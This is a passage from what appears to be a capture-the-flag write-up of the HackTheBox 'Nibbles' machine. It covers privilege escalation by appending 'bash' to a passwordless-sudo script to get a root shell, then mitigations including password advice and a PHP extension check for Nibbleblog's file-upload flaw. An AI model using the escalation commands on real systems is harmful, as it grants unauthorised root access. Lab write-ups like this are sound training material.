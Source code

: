 ## Privilege escalation
The privilege escalation was fairly easy and was the standard PE for [easy] boxes on the hackthebox platform. Running the following code will display a file which was acessable to run as sudo without password. The File was readable and writeable.
```bash
$ sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
You are able to run any script with the exact name `monitor.sh` in the same directory as root or you can unzip the personal.zip file and use the given directories and file to get root shell. To add your own command you can use the following.
```bash
$ echo "bash" >> /home/nibbler/personal/stuff/monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh
# root shell
```

## Mitigations
### Guessable password
In the nibbleblog vulnerability there is a guessable password needed, so the first mitigation advice is to use "secure" password, which means that they have multiple characters, numbers, alphabet and don't have anything to do with something personal/guessable. 
- bad password: `nibbles`
- better password idea: `#RW&9AGpo%da*!Tuu&2pM4` (don't use this password now just a example)

### Nibbleblog "arbritary file upload" 4.0.3
The following arbritary file upload vulnerability was fixed by the lead developer of nibbleblog with an simple if statment as following in the vulnerable code. The if statement just checks if the `$extension` variable is `jpg, gif or png` and if this isn't the case it wouldn't upload the file to the server, which in our case would prevent the `arbitary file upload`. 
```php
if( $plugin->init_db() ) { 

  // upload files 
  foreach($_FILES as $field_name=>$file) { 
    $extension = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION)); 
    $destination = PATH_PLUGINS_DB.$plugin->get_dir_name(); 
    $complete = $destination.'/'.$field_name.'.'.$extension;
	
	//Check if the extension is a jpg, gif or png
	//Secures our arbitary file upload vulnerability
	
	if( ($extension=='jpg') || ($extension=='gif') || ($extension=='png') )
	{
		// Upload the new file and move 
		if(move_uploaded_file($file["tmp_name"], $complete)) { 
		  // Resize images if requested by the plugin 
		  if(isset($_POST[$field_name.'_resize'])) { 
			$width = isset($_POST[$field_name.'_width'])?$_POST[$field_name.'_width']:200; 
			$height = isset($_POST[$field_name.'_height'])?$_POST[$field_name.'_height']:200; 
			$option = isset($_POST[$field_name.'_option'])?$_POST[$field_name.'_option']:'auto'; 
			$quality = isset($_POST[$field_name.'_quality'])?$_POST[$field_name.'_quality']:100;
			$Resize->setImage($complete, $width, $height, $option); 
			$Resize->saveImage($complete, $quality, true); 
		  }
	 }
```